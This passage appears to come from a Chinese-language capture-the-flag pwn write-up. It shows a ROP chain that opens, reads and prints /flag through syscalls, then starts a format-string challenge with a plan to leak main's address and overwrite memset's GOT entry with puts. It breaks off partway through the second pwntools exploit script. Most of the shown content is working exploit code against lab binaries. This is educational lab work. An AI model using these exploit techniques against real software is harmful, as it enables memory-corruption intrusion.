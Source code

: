 ```python
buffer=int(io.recvline(),16)
payload=b'/flag\x00\x00\x00'+b'a'*0x20
payload+=p64(rax_ret)+p64(2)+p64(rsi_rdx_ret)+p64(0)+p64(0)+p64(rdi_ret)+p64(buffer)+p64(syscall)
payload+=p64(rax_ret)+p64(0)+p64(rsi_rdx_ret)+p64(buffer)+p64(0x30)+p64(rdi_ret)+p64(3)+p64(syscall)
payload+=p64(rax_ret)+p64(1)+p64(rsi_rdx_ret)+p64(buffer)+p64(0x30)+p64(rdi_ret)+p64(2)+p64(syscall)
io.sendline(payload)
io.interactive()
```


## fmt
难度：****
### 考察知识点

1. 格式化字符串参数内存分布
2. 格式化字符串任意地址写
3. 计算PIE偏移
4. 泄露libc地址

现在有两种思路：
**方法一：**

1. **泄露main函数地址，算出pie的偏移**
2. **获取puts函数的got值**
3. **覆写memset的got表为puts**

首先是算出来getFlag中 函数返回地址(main函数地址) 在 printf参数中的偏移量
[格式化字符串 测量偏移量深度解析 (x64)](https://www.yuque.com/pursuing-ousyh/kx4z72/labsl1830m98dwnk?view=doc_embed)
然后验证一下可行性：
这里pwndbg停在第二次输入的时候
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1696586535177-5b891599-88ed-4022-8936-3deed3c70f6c.png#averageHue=%23022755&clientId=u54080b89-c565-4&from=paste&height=350&id=ubtjh&originHeight=438&originWidth=1072&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=134090&status=done&style=stroke&taskId=ub9d53a5f-540b-4a62-a943-dc7d6899a73&title=&width=857.6)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1696586675474-4b7b7879-3c1e-401d-aff2-b73741118c41.png#averageHue=%23022856&clientId=u54080b89-c565-4&from=paste&height=408&id=mgNkd&originHeight=510&originWidth=1075&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=130336&status=done&style=stroke&taskId=uaa3b8e09-67ac-4235-9a80-c4d02f4879f&title=&width=860)
发现memset got地址被成功修改，继续执行，发现打印出本地的flag，思路可行
![image.png](https://cdn.nlark.com/yuque/0/2023/png/38460676/1696586702880-81928351-0d22-4c1e-a996-1bce5bd4ccf7.png#averageHue=%23012755&clientId=u54080b89-c565-4&from=paste&height=132&id=r5zRO&originHeight=165&originWidth=362&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10070&status=done&style=stroke&taskId=u54b9e644-9a16-4355-8c10-6e1b1eb58c4&title=&width=289.6)
exp如下：
```python
from pwn import *
from LibcSearcher import * 

context(log_level = 'debug', os = 'linux', arch = 'amd64')
context.terminal = ['tmux','new-window']
local = 2
if local == 1 :
	sh = process([b"./ld.so", b"./shaokao"], env = {"LD_PRELOAD" : b"./libc.so.6"})
elif local == 2 :
    sh = process("./fmt")
elif local == 3 :
    sh = gdb.debug("./fmt")
else :
    sh = remote("10.10.175.100", 35664)
elf = ELF('./fmt')
# libc = elf.libc
libc = ELF('./libc-2.23.so')

s       = lambda data               :sh.send(data)
sa      = lambda text, data         :sh.sendafter(text, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda text, data         :sh.sendlineafter(text, data)
r       = lambda num                :sh.recv(num)
```